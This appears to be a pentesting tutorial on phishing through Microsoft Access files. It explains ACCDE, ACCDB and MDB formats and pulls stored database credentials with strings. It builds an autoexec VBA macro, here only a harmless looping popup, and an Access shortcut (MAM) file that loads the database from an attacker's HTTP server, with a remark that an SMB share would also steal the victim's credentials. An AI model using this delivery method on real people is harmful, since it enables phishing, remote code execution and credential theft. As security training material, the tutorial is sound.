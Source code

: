 Prerequisite:

- Programming in VBA
- General understanding of Microsoft services in Pentesting.
    

Understanding the Access Sevice:

Files with the extension ACCDE (Microsoft Access Execute Only Database) are files used to protect an ACCDB file. It replaces the MDE format which secures an MDB file used by older versions of Access. The permissions do not allow to read the macro code (Execute permissions). This means that the VBA code of an ACCDE file is saved in a way that prevents anyone from seeing or changing it.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

the major difference between ACCDB and MDB is that ACCDB does not support security or replication at user level while MDB does, on the other hand ACCDB uses a more advanced cryptographic system via windows APIs.

Example of MDB file :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

As you can see the data is partially encrypted we can get this data: `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Example of ACCDB file:


![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

it's unreadable but we can still access some data via `strings`.

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

MDB and ACCDB are Microsoft Access databases, but MDB is no longer used in recent versions. Each DB contains different objects like tables, queries, forms, reports, macros and VBA (Visual Basic) code. The files corresponding to Access databases are often linked to a file called LACCDB or LDB for older versions. These files are lock files that allow you to determine which records are locked in a shared database and by whom they are locked.


![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

the purpose of phishing via Access can allow an attacker to manage a malicious VBA code in ACCDE and autoexec so that at the time of execution the victim is automatically redirected to the attacker's servers.

For the example we are going to make an innoffensive VBA code that will make a loop on the pop up.

```vb
Public Function main()
	func
End Function

Sub func()
	do
	  Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

to put a macro and put the autoexec, go to `Create`->`Macro` and add the action `ExcuterCode` then put the main function of your code for my part it is `main()` and after `Ctrl-S` name it _autoexec_.

Using MAM on a HTTP server but you can use a SMB share which will steal the creds from the target at the same time.

```powershell
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

During the execution of the MAM, this is what happens.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
